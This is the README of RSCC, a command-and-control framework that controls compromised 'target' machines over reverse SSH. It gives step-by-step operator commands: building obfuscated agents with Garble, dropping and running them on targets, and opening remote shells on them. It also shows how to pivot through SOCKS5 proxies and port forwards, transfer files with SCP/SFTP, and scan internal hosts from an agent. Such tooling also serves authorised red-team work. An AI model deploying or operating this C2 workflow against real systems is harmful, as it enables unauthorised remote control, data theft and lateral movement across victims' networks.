

<div align="center">
  <h1>RSCC</h1>
  <tt>~ Reverse SSH Command & Control ~</tt><br/>
  <br/>
</div>

RSCC is an open source, cross-platform command & control framework that allows you to control your agents (targets) via SSH.

## Features

Since RSCC is based on SSH, it has the following features:

- Cross-platform agents
- Fully interactive shell
- File transfer via SCP or SFTP
- Local / Remote  port forwarding
- Chain SOCKS5 proxy via SSH -D

**Also you can extend agent with your own SSH subsystems!**

As an example, there is a [port scanner subsystem](pkg/agent/internal/sshd/subsystems/pscan.go) that allows you to scan the target host for open ports from the agent.

<details>
<summary>Example</summary><br/>

```sh
ssh rscc+agent_id -s pscan --ports 139,445,3389 --ips 10.10.10.10
```

</details>

## Getting Started

### Prerequisites

To use RSCC, you need to have following tools on server machine:

- Go 1.24+ (https://go.dev/doc/install)
- Garble (https://github.com/burrowers/garble)

### Installation

Just download binary from [latest release](https://github.com/nu11zy/rscc/releases/latest) and run it.

Or build it from source:

```sh
git clone https://github.com/nu11zy/rscc.git
cd rscc
make build
```

## Usage

### Server

1. Add your public key to `authorized_keys` file in the current directory or `~/.ssh/authorized_keys`.

2. Start **RSCC** server:

```sh
./rscc
```

3. Update your SSH config (for example, `~/.ssh/config`):

```yml
# Server config
Host rscc
  HostName 127.0.0.1 # RSCC server IP
  Port 55022         # RSCC operator port
  User nu11z         # Operator username

# Agent config
Host rscc+*
  ProxyJump rscc
  UserKnownHostsFile /dev/null
  StrictHostKeyChecking no
```

4. Connect to **RSCC** server:

```sh
ssh rscc
```

5. Generate agent (see `--help` for more options):

```sh
rscc > agent generate -s "127.0.0.1:8080"
```

6. Download agent to your machine (*web delivery is coming soon*):

```sh
scp rscc:/path/to/agent /path/to/local/file
```

### Target

1. Drop agent to target machine and execute it:

2. Get agent's session ID:

```sh
ssh rscc session list
```

3. Connect to agent:

```sh
ssh rscc+session_id
```

### More examples

<details>
<summary>SOCKS5 Proxy</summary><br/>

```sh
ssh -D 9090 rscc+agent_id
```

Now you can use `127.0.0.1:9090` as SOCKS5 proxy.

</details>

<details>
<summary>Transfer files</summary><br/>

SCP:

```sh
scp /path/to/local/file rscc+agent_id:/path/to/remote/file
```

SFTP:

```sh
sftp rscc+agent_id
```

</details>

<details>
<summary>Port forward subsystem</summary><br/>

List forwarded ports:

```sh
ssh rscc+agent_id -s pfwd list
```

Forward local port 8080 to 1.1.1.1:80:

```sh
ssh rscc+agent_id -s pfwd start 8080:1.1.1.1:80
```

Stop port forward:

```sh
ssh rscc+agent_id -s pfwd stop 8080
```

</details>

## Roadmap

- [ ] Support for agent listeners with custom protocols (HTTP, WS, gRPC)
- [ ] Add more subsystems *(execute-assembly, port forward, inject, etc)*
- [ ] Webhooks for events
- [ ] HTTP server for serving agents
- [ ] More documentation
